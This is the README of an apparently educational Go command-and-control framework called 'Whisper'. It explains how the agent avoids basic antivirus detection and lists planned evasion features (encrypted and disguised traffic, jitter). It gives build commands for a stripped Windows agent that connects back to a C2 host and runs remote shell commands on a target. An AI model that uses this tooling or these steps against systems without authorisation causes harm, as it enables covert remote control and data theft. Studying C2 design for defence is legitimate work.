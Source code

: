 # Whisper C2 Framework

![Status](https://img.shields.io/badge/status-proof%20of%20concept-brightgreen) [![Go Version](https://img.shields.io/badge/go-1.18+-00ADD8.svg)](https://go.dev/) [![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

Whisper is a lightweight, TCP-based Command and Control (C2) framework built entirely in Go. It was developed for educational purposes to explore the fundamentals of C2 architecture and the challenges of evading modern security solutions.

This project serves as a practical tool for researchers, students, and cybersecurity professionals to understand offensive tooling in a controlled, ethical environment.

---

## ⚠️ Disclaimer

This project is intended **solely for educational and research purposes**. The goal is to study adversarial techniques to build better defensive strategies. The author is not responsible for any misuse or damage. **Use this tool ethically and only on systems you have explicit permission to test.**

---

## 🧠 Core Concepts: Bypassing Static vs. Dynamic Analysis

A key goal of this project is to understand how security products detect threats. The current version of Whisper can remain undetected by some basic antivirus (AV) solutions for two main reasons:

1.  **Unique Signature:** As a custom-coded tool, its file hash is not in any AV vendor's database of known malware. It bypasses **static analysis** because it has no recognized malicious signature.

2.  **Simple Behavior:** The agent's current actions (making a TCP connection, running a command) are not inherently malicious enough to trigger alarms in AV products that are not performing aggressive **behavioral analysis**.

The real challenge, and the future goal of this project, is to evade **Endpoint Detection and Response (EDR)** systems. An EDR actively monitors system behavior and would likely flag Whisper for:

* An unknown, unsigned program making a persistent network connection.
* An unusual parent-child process relationship (e.g., `agent.exe` spawning `whoami.exe`).

The roadmap below outlines the features needed to bypass this more advanced, behavior-based detection.

---

## ✨ Current Features

* **TCP-Based C2 Channel**: Simple and direct network communication between the agent and server.
* **Remote Command Execution**: Execute shell commands on a target machine via the agent.
* **Asynchronous Command Handling**: Built with Go's goroutines to manage multiple agents without blocking.
* **Cross-Platform Portability**: Easily cross-compile the agent for Windows, Linux, and macOS.

---

## 🗺️ The Road to True Stealth: Project Roadmap

The following features are planned to evolve Whisper from a simple C2 into a framework capable of evading more sophisticated, behavior-based security solutions.

* [X] **Encrypted C2 Channels (TLS):** Encrypt all traffic between the agent and server to prevent network inspection and hide commands.
* [X] **Malleable C2 Profiles:** Disguise C2 traffic to look like legitimate web traffic (e.g., HTTP/S POST requests) to blend in with normal network activity.
* [ ] **Sleep Obfuscation & Jitter:** Introduce randomized delays (jitter) to the agent's check-ins to make its beaconing pattern less predictable and harder to detect.

---


## 🛠️ Getting Started

### Prerequisites

* [Go](https://go.dev/doc/install) (Version 1.18 or higher)
* A basic understanding of networking and command-line interfaces.

### Installation and Setup

First, clone the repository to your local machine:

    ```bash
    git clone https://github.com/rahdian-abdi/whisper.git
    cd whisper
    ```

### **Option 1: Raw TCP Mode** 🔌

This is the simplest mode, using a direct, unencrypted TCP connection.

#### **Server Setup (Raw TCP)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/rawtcp
    ```

2.  **Run the Server:**
    The server will start listening for incoming connections.
    ```bash
    go run main.go
    ```
    *(Note: For production use, build the binary first with `go build .`)*

#### **Agent Setup (Raw TCP)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/rawtcp
    ```
    Open `main.go` and set the `c2Host` and `c2Port` variables to your server's IP and port.
    ```go
    // agent/rawtcp/main.go
    var (
        c2Host = "YOUR_C2_IP_HERE"
        c2Port = "8080"
    )
    ```

2.  **Build the Agent:**
    Compile the agent executable. This command creates a Windows binary and strips debug symbols to reduce its size.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_rawtcp.exe .
    ```

---

### **Option 2: HTTPS Mode (Malleable C2)** 🌐

This mode uses HTTPS for encrypted communication, making it stealthier.

#### **Server Setup (HTTPS)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/https
    ```

2.  **Generate TLS Certificates:**
    The server requires a TLS certificate and key. The provided `openssl.conf` simplifies this process.
    ```bash
    # Create the directory to store certificates
    mkdir certs

    # Generate the certificate and key
    openssl req -new -x509 -config openssl.conf -keyout certs/c2.key -out certs/c2.crt -days 365 -nodes
    ```
    *Note: You can edit `openssl.conf` to change certificate details like the IP or domain name.*

    You can find the minimal setup of the `openssl.conf` below
    ```
    [req]
    distinguished_name = req_distinguished_name
    x509_extensions = v3_req
    prompt = no

    [req_distinguished_name]
    CN = YOUR_C2_SERVER_IP_HERE

    [v3_req]
    keyUsage = keyEncipherment, dataEncipherment
    extendedKeyUsage = serverAuth
    subjectAltName = @alt_names

    [alt_names]
    IP.1 = YOUR_C2_SERVER_IP_HERE
    ```

3.  **Run the Server:**
    ```bash
    go run main.go
    ```

#### **Agent Setup (HTTPS)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/https
    ```
    Open `main.go` and set the `c2URL` variable to your server's full URL.
    ```go
    // agent/https/main.go
    c2URL := "https://YOUR_C2_IP_OR_DOMAIN"
    ```

2.  **Build the Agent:**
    Compile the agent executable for a Windows target.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_https.exe .
    ```

---

## 🖥️ Usage

1.  **Start Your Chosen Server:** Follow the setup steps to run either the `rawtcp` or `https` server.
2.  **Deploy the Agent:** Transfer the corresponding compiled agent (`agent_rawtcp.exe` or `agent_https.exe`) to a target machine you are authorized to test on and execute it.
3.  **Interact with the Agent:** When the agent connects, the server terminal will notify you and prompt for a command.
    ```
    > New agent connected from: 192.168.1.10:49876
    > Enter command to run on agent 192.168.1.10:
    $ whoami
    > Command 'whoami' sent to agent.
    > Agent response:
    > DESKTOP-TEST\user
    ```

---

## 🤝 Contributing

Contributions, issues, and feature requests are welcome! Feel free to check the issues page for this repository to contribute.

---

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.
